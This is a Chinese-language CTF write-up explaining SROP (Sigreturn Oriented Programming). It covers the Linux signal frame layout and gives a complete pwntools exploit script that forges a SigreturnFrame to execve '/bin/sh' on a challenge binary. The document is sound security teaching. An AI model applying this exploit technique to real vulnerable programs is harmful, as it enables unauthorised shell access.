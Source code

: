 SQCTF的 当时只道是寻常 
TGCTF 的 norop 
之前就听队里师傅问我SROP学了没，这次刚好有个契机就学了
SROP(Sigreturn Oriented Programming)，简单来说就是通过系统调用号为0xf(sigreturn)的系统调用执行一个可以将所有寄存器赋值的函数来实现对所有寄存器的控制，从而直接执行某个函数的操作。
# Signal 机制
signal 机制是类 unix 系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用 kill 来发送软中断信号。一般来说，信号机制常见的步骤如下图所示：
![[Pasted image 20250427151753.png]]
1. 内核向某个进程发送 signal 机制，该进程会被暂时挂起，进入内核态。
2. 内核会为该进程保存相应的上下文，**主要是将所有寄存器压入栈中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址**。此时栈的结构如下图所示，我们称 ucontext 以及 siginfo 这一段为 Signal Frame。**需要注意的是，这一部分是在用户进程的****地址空间****的。**之后会跳转到注册过的 signal handler 中处理相应的 signal。因此，当 signal handler 执行完之后，就会执行 sigreturn 代码。
对于 signal Frame 来说，会因为架构的不同而有所区别，这里给出分别给出 x86 以及 x64 的 sigcontext
- x86
```Plain
struct sigcontext{  
    unsigned short gs, __gsh;  
    unsigned short fs, __fsh;  
    unsigned short es, __esh;  
    unsigned short ds, __dsh;  
    unsigned long edi;  
    unsigned long esi;  
    unsigned long ebp;  
    unsigned long esp;  
    unsigned long ebx;  
    unsigned long edx;  
    unsigned long ecx;  
    unsigned long eax;  
    unsigned long trapno;  
    unsigned long err;  
    unsigned long eip;  
    unsigned short cs, __csh;  
    unsigned long eflags;  
    unsigned long esp_at_signal;  
    unsigned short ss, __ssh;  
    struct _fpstate * fpstate;  
    unsigned long oldmask;  
    unsigned long cr2;
};
```
- x64
```Plain
struct _fpstate{  
    /* FPU environment matching the 64-bit FXSAVE layout.  */  
    __uint16_t        cwd;  
    __uint16_t        swd;  
    __uint16_t        ftw;  
    __uint16_t        fop;  
    __uint64_t        rip;  
    __uint64_t        rdp;  
    __uint32_t        mxcsr;  
    __uint32_t        mxcr_mask;  
    struct _fpxreg    _st[8];  
    struct _xmmreg    _xmm[16];  
    __uint32_t        padding[24];
};
struct sigcontext{  
    __uint64_t r8;  
    __uint64_t r9;  
    __uint64_t r10;  
    __uint64_t r11;  
    __uint64_t r12;  
    __uint64_t r13;  
    __uint64_t r14;  
    __uint64_t r15;  
    __uint64_t rdi;  
    __uint64_t rsi;  
    __uint64_t rbp;  
    __uint64_t rbx;  
    __uint64_t rdx;  
    __uint64_t rax;  
    __uint64_t rcx;  
    __uint64_t rsp;  
    __uint64_t rip;  
    __uint64_t eflags;  
    unsigned short cs;  
    unsigned short gs;  
    unsigned short fs;  
    unsigned short __pad0;  
    __uint64_t err;  
    __uint64_t trapno;  
    __uint64_t oldmask;  
    __uint64_t cr2;  
    extension union    {      
        struct _fpstate * fpstate;      
        __uint64_t __fpstate_word;    
        };  
    __uint64_t __reserved1 [8];
};
```
![[Pasted image 20250427151907.png]]
3. signal handler 返回后，内核为执行 sigreturn 系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新 pop 回对应的寄存器，最后恢复进程的执行。其中，32 位的 sigreturn 的调用号为 119(0x77)，64 位的系统调用号为 15(0xf)。
# 利用
`SROP`的利用很简单，只需要攻击者可以控制栈空间，即可以向栈空间写入大量（长度至少包含构造的`fake frame`)数据，**然后控制****`rsp`****指向存有我们构造的****`fake frame`****，并控制****`rax`****为****`0xf`****，然后执行****`syscall`****就可以实现****`srop`****的攻击。**
注意是控制`rsp`指向`fake frame`的头部，其他指针除了`rax`外应该都无所谓。
实际构造时发现可能有些非寄存器的位置非零也不影响最后的执行，具体哪些还没细探究过，目前只知道最后两个位置应该不影响
`Fake frame`的构造`pwntools`库有现现成的，可以直接构造
```Python
frame1 = SigreturnFrame()
frame1.rax = constants.SYS_execve
frame1.rdi = binsh
frame1.rsi = 0
frame1.rdx = 0
frame1.rip = 0x401045
```
这边用一题来举例
程序很简单
![[Pasted image 20250427151951.png]]
构造了三个函数，中间`read`，前后`write`，可以控制`rsi`，但无法控制`rdi`，有`0x400`的`read`，足够构造`SROP`链。
```Python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
local = True
debug = True
if local:
    p = process('./pwn01')
    if debug:
        gdb.attach(p, gdbscript='b main')
else:
    ip ,port = "challenge.qsnctf.com:32442".split(":")
    p = remote(ip, port)

pop_rax = 0x40104a
binsh = 0x40203a
syscall = 0x40101d

frame1 = SigreturnFrame()
frame1.rax = constants.SYS_execve
frame1.rdi = binsh
frame1.rsi = 0
frame1.rdx = 0
frame1.rip = 0x401045

payload = p64(0)
payload += p64(pop_rax)
payload += p64(0xf)
payload += p64(0x401042)
payload += bytes(frame1)
p.send(payload)

p.interactive()
```
这里我们直接贴 exp，结合 exp 讲
程序是直接有`binsh`的地址的，那么我们只需要构造 SROP，把他读入到栈上然后`syscall`就可以，那么要考虑的就是控制`rsi`的值，控制`rsi`的值就要用到最后一个`syscall`前面的`mov rsi, rsp;` rsp 始终是指向栈上的，那么我们只需要控制执行`syscall`的时候`rsp`刚好是我们构造的`fake frame`前面即可，这是很好做到的。
![[Pasted image 20250427152016.png]]
可以看到根据我们的 exp，`0x7ffd226a2338`处开始就是我们的`fake frame`，
![[Pasted image 20250427152025.png]]
执行到`syscall`的时`rsi`已经指向了`fake frame`的顶部，可以开始SROP
![[Pasted image 20250427152040.png]]
实际就可以根据我们构造的寄存器来执行`system("/bin/sh")`。